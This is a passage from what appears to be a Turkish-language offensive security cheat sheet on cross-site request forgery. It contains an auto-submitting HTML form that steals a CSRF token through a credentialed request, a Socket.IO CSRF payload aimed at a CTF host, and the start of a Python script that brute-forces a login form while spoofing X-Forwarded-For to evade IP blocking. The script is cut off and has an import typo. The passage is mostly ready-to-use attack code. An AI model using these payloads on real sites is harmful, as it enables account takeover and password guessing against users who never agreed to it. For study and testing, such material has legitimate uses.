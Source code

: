 ```html
method="POST"
enctype="multipart/form-data">
<input type="hidden" name="username" value="root" />
<input type="hidden" name="status" value="on" />
<input type="hidden" id="findtoken" name="token" value="" />
<input type="submit" value="valider" />
</form>

<script>
var x = new XMLHttpRequest()
function getData() {
x.withCredentials = true
x.open("GET", "http://google.com?param=VALUE", true)
x.send(null)
}
x.onreadystatechange = function () {
if (x.readyState == XMLHttpRequest.DONE) {
var token = x.responseText.match(/name="token" value="(.+)"/)[1]
document.getElementById("findtoken").value = token
document.getElementById("form").submit()
}
}
</script>
</body>
```
### Socket.IO ile CSRF
```html
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io("http://six.jh2i.com:50022/test")

const username = "admin"

socket.on("connect", () => {
console.log("connected!")
socket.emit("join", {
room: username,
})
socket.emit("my_room_event", {
data: "!flag",
room: username,
})
})
</script>
```
## CSRF Giriş Kaba Kuvvet

Kod, bir CSRF token kullanarak bir giriş formunu Kaba Kuvvet ile kırmak için kullanılabilir (Ayrıca, olası bir IP kara listesini aşmaya çalışmak için X-Forwarded-For başlığını da kullanıyor):
```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
#Return CSRF + Session (cookie)
```